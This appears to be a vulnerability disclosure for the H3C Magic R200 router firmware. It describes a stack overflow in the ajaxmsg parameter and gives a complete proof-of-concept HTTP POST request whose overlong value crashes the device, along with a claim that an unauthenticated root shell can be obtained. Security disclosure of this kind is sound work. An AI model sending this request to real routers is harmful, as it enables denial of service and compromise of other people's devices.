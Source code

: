# H3C magic R200 R200V200R004L02.bin  Stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202012/1361151_30005_0.htm

## Affected version

![image-20220624224706073](img/image-20220624224706073.png)

The figure above shows the latest firmware.

## Vulnerability details

![image-20220625012915020](img/image-20220625012915020.png)

 The value of ajaxmsg is copied into the V11 array through the while loop.  However, the size of the V11 array is only 132, which is easy to cause  buffer overflow .

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware R200V200R004L02.bin
2. Attack with the following POC attacks

```
POST /AJAX/ajaxget HTTP/1.1
Host: 192.168.124.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:101.0) Gecko/20100101 Firefox/101.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 280
Origin: https://192.168.124.1
DNT: 1
Connection: close
Referer: https://192.168.124.1/access_ap_acl_cfg.asp?index=-1&search_key=&search_item=4&max_row=8&last_page=9999
Cookie: LOGIN_PSD_REM_FLAG=; PSWMOBILEFLAG=true; LOGINCOUNT=; USERLOGINIDFLAG=
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

ajaxmsg=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

![image-20220624230619282](img/image-20220624230619282.png)

 The above figure shows the POC attack effect 

Finally, you can write exp, which can obtain a stable root shell without authorization

![image-20220625212941976](img/image-20220624231746994.png)

